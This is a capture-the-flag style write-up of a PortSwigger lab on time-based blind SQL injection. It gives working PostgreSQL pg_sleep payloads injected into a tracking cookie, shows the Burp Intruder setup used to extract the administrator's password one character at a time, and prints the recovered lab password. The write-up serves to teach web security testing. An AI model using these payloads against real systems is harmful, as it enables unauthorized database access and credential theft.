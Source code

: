 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Task
This lab has a blind SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query containing the value of the sent cookie.

The results of the SQL query are not returned, and the application does not react differently depending on whether the query returns any rows or throws an error. However, since the query is executed synchronously, we can trigger conditional delays to extract the information we need based on them.

There is another table in the database called `users`, which contains `username` and `password` columns. We need to exploit a blind SQL injection vulnerability to find out the password of the user `administrator`.

You must be logged in as `administrator` to complete the task.
## Solution
Go to the task site
![[Pasted image 20241222194823.png]]
Refresh the page, intercept the request via `Burp Suite` and send it to `Repeater`
![[Pasted image 20241222195109.png]]
Introduce SQL injection into `TrackerId`:
```SQL
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
![[Pasted image 20241222195522.png]]
The page loads for 10 seconds. This means that the SQL injection works. If we enter another query, the page will load instantly (changed 1=1 to 1=2)
```SQL
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
Now let's check if there is a user with the username `administrator`
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
![[Pasted image 20241222195942.png]]
The page loads in 10 seconds. So there is such a user. Now let's find out the length of his password
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
![[Pasted image 20241222200114.png]]
![[Pasted image 20241222200148.png]]
In total, there are 20 characters in the password of the user `administrator`.

Now we will pick up his password. For this we will use `Intruder`.
Sending a query
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
in `Intruder`:
![[Pasted image 20241222200414.png]]
This uses the `SUBSTRING()` function to extract one character from the password and check it against a specific value. Our attack will iterate over all positions and possible values, checking each one in turn.
In the `Payloads` tab, select `Simple list` and in `Payload settings [Simple list]` add characters from the `a-z` and `0-9` lists.
![[Pasted image 20241222200746.png]]
To monitor page load time, go to `Resource pool`.
![[Pasted image 20241222200821.png]]
Launch the attack. During the symbol search, one symbol will hang for 10 seconds and will not show the request code (200). This means that this symbol is correct.
Final password:
```Password
xjbip577r7gyzeo6kp0n
```
Log in as `administrator`
![[Pasted image 20241222201748.png]]
![[Pasted image 20241222201756.png]]